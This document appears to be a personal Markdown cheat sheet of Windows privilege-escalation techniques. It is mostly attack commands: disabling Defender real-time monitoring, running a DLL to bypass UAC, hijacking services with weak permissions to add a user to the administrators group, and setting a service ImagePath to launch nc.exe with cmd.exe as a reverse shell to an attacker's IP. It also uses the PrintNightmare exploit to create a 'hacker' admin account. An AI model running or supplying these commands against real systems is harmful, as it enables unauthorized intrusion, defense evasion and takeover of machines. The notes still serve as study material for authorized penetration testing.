 [Windows Vulnerabilities.](https://msrc.microsoft.com/update-guide/vulnerability)

Disable windows AV 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## [User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
consent prompted elevated privileges. 
[How it works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
[10 Group Policy Settings](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=intune)
Forces an attacker to become noisy. 
RID 500 Admin always operates at a higher mandatory level with Admin Approval Mode (AAM) enabled. 
New accounts operate at medium level.
Confirm UAC is enabled:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Check UAC level:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

```powershell
[environment]::OSVersion.Version
```
0x5 is the highest level.
UAC works different on windows [versions](https://en.wikipedia.org/wiki/Windows_10_version_history)

#### [UAC bypasses.](https://github.com/hfiref0x/UACME)
Find a UAC that works in targets window version under keys. 
Google may have tutorial for exploit?
Run a DLL
```shell-session
rundll32 shell32.dll,Control_RunDLL <path to dll>
```

## Weak Permissions 
[SharpUp](https://github.com/GhostPack/SharpUp/) from GhostPack suite
Checks for weak ACLs on binaries. 
```cmd
.\SharpUp.exe audit
```
Service Binaries:
Verify vuln with [icals](https://ss64.com/nt/icacls.html)
```cmd
icals <path to exe>
```
Replace the binary with a malicious one through msfvenom
```cmd
cmd /c copy /Y <exe> "<path to target>"
```
```shell-session
sc start <service name>
```
Service Permissions 
Check permissions with [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
```cmd
accesschk.exe /accepteula -quvcw <service>` #(.exe not needed)
```

```shell
-q = omit banner
-u = surpress erros
-v = verobse
-c = specify name of windows service
-w = objects with write only. 
```


Change the service binary:
```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators <user>/add"
```
Stop the service 
```cmd
sc stop <service>
```
Start the service 
```cmd
sc start <service>
```
confirm local access
```cmd
net local group administrators
```
### Cleanup
Revert the binary path 
```cmd
sc config <service> binpath="<path>"
```
Start the service 
```cmd
sc start <service>
```

### Unquoted Service Paths
Rare to exploit. If service path isn't in ""  windows will search for it in root path.  May be able to hijack the service. 

Search for unquoted service path:
```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
Permissive Registry ACLs. 

Search for weak ACLs
```cmd
accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services
```
Change the ImagePath value in powershell
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "<path to nc.exe> -e cmd.exe <reverse ip> <reverse port>"
```
Modify Registry Autorun Binaries.
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
If you have write permissions to a binary you may be able to escalate privileges next time that user logs in. 
## Kernel Exploits
If SAM is readable: [CVE-2021-36934](https://www.exploit-db.com/docs/50245)

### [CVE-2021-1675 / CVE-2021-34527](https://www.exploit-db.com/docs/50537)Print Nightmare
check for spoiler service 
```powershell
ls \\localhost\pipe\spoolss
```
Add local admin with printnightmare 
```powershell
Set-ExecutionPolicy Bypass -scope Process
```
Import powershell script
```powershell
Import-Module ./CVE-2021-1675.ps1

Invoke-Nightmare -NewUser "hacker" -NewPassword "1234" -DriverName "Print"
```
Confirm new user 
```shell-session
net user hacker
```

### Vulnerable Services
Permitted to install software or vulnerable third-party applications. 
Check installed programs
```cmd
wmic product get name
```
Check local ports
```cmd
netstat -ano
```
Check the process ID 
```powershell
get-process -Id <PID>
```
Enumerate Running Service 
```powershell
get-service | ? {$_.DisplayName -like '<name>'}
```
